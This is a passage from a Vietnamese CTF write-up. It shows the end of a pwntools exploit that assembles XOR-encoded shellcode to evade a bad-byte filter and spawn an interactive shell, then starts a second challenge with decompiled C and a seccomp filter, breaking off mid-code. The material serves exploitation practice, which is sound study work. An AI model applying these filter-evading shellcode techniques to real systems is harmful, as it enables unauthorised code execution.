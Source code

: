 ```cs
"""

for b in blocks:
    shellcode += f"""
    movabs r8, {b}  # Đưa block vào r8
    xor    r8, rcx  # Giải mã bằng XOR với key
    push   r8       # Đưa vào stack
"""

shellcode += """
    jmp    rsp  # Nhảy đến shellcode trên stack
"""

shellcode = asm(shellcode)

assert all(i not in shellcode for i in b'\xcd\x80\x0f\x05\x89')

p.sendlineafter(b'!\n',shellcode)

p.interactive()
```

- đợi tầm 10s và ta có flag =))) 

![flag](/assets/images/flaghehe.png)

ref : [here](https://orcinus-orca.tistory.com/248) and [here](https://orcinus-orca.tistory.com/248) , [here](https://www.ired.team/offensive-security/code-injection-process-injection/writing-custom-shellcode-encoders-and-decoders#raw-shellcode)


## syscall

- ta sẽ được input 176 bytes vào ```a1```

```c
char *__fastcall sub_1280(char *a1)
{
  puts(
    "The flag is in a file named flag.txt located in the same directory as this binary. That's all the information I can give you.");
  return fgets(a1, 176, stdin);
}
```

- nhìn thấy ```prctl``` nên ta sẽ check ```seccomp-tools``` 

```c
__int64 __fastcall sub_12DB(__int64 a1, __int64 a2, __int64 a3, __int64 a4, __int64 a5, __int64 a6)
{
  int v7; // [rsp+0h] [rbp-F0h]
  __int64 v8; // [rsp+10h] [rbp-E0h] BYREF
  _QWORD v9[26]; // [rsp+20h] [rbp-D0h] BYREF

  v9[25] = __readfsqword(0x28u);
  v9[0] = 0x400000020LL;
  v9[1] = 0xC000003E16000015LL;
  v9[2] = 32LL;
  v9[3] = 0x4000000001000035LL;
  v9[4] = -3976200171LL;
  v9[5] = 1179669LL;
  v9[6] = 0x100110015LL;
  v9[7] = 0x200100015LL;
  v9[8] = 0x11000F0015LL;
```